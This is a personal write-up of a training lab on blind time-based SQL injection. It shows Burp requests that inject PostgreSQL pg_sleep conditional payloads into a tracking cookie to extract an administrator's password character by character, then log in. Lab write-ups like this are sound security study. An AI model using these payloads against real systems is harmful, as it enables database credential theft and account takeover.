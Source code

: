 *This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the administrator user.*

Observed the HTTP History after clicking on the login page: 
```Burp Request
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT;
...
```

Injecting a `'` into the cookie value: 
```
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT'; 
```
resulted in a immediate 200 status code: 
```Burp 
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3195
```

After trying each syntax for specific to different databases, I found that PostgreSQL worked for the time delay:
```Burp 
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT'%3b SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--;session=HigjdhDtl8NPRf7WMcHSWBOAi2ik9o1q
```
This gave a 10s time delay. 

I then verified the username *administrator* by modifying the request to the following: 
```Burp 
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT'%3b SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--;session=HigjdhDtl8NPRf7WMcHSWBOAi2ik9o1q
...
```
This gave a 10s time delay as well. 

I then moved on to enumerate the length of the password, with the initial query in the Repeater as: 
```Burp 
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT'%3b SELECT CASE WHEN (length(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--;session=HigjdhDtl8NPRf7WMcHSWBOAi2ik9o1q
```
This gave a 10s time delay, so I sent this modified request to the Intruder and made the payload as such: 
```Burp 
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT'%3b SELECT CASE WHEN (length(password)>§1§) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--;session=HigjdhDtl8NPRf7WMcHSWBOAi2ik9o1q
```
![[Screenshot 2024-05-02 at 6.46.33 PM.png]]
Based on the *Sniper* attack, I found the following results: 
![[Screenshot 2024-05-02 at 6.51.18 PM.png]]
Based on the results, the length of the password is 20 characters excluding the lagged response received (>20s). 

Now it is time to find out the value of each character in the password. 

I modified the query to the following and implemented the *Cluster Bomb* feature: 
```Burp 
GET /login HTTP/2
Host: 0ac000de03ddee1c804b2179004d0009.web-security-academy.net
Cookie: TrackingId=9sPIYHq3rQtbWoNT'%3b SELECT CASE WHEN (SUBSTRING(password,§1§,1)='§a§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--;session=HigjdhDtl8NPRf7WMcHSWBOAi2ik9o1q
...
```
![[Screenshot 2024-05-02 at 7.02.40 PM.png]]
![[Screenshot 2024-05-02 at 7.03.01 PM.png]]
I got the following results after filtering by those with ~10s response received: 
![[Screenshot 2024-05-02 at 7.04.22 PM.png]]
Piecing together the password, I got : 
`kjdh0dt60ifw4t456lqr`

Logged in with the credentials!
![[Screenshot 2024-05-02 at 7.12.31 PM.png]]